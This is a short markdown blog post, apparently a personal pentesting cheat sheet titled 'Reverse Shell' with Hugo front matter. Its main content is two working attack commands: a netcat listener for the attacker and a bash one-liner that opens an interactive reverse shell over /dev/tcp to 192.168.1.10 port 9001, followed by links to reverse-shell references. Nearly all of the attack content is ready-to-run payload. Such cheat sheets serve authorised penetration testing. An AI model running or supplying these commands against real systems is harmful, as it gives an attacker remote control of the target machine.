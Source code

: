 ```yaml
---
title: Reverse Shell
date: 2022-10-18T01:30:03.000+00:00
tags:
- pentest
categories:
- cheatsheet
author: Me
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: Desc Text.
disableHLJS: false
disableShare: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
  image: "<image path/url>"
  alt: "<alt text>"
  caption: "<text>"
  relative: false
  hidden: true

---
```

## Start a listener on attacker:
```
nc -lp 9001
# ip=10.10.10.10
# port=9001
```

## Run a shell on target:
* bash
```
bash -i >& /dev/tcp/192.168.1.10/9001 0>&1
```

## References
* https://www.revshells.com/
* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
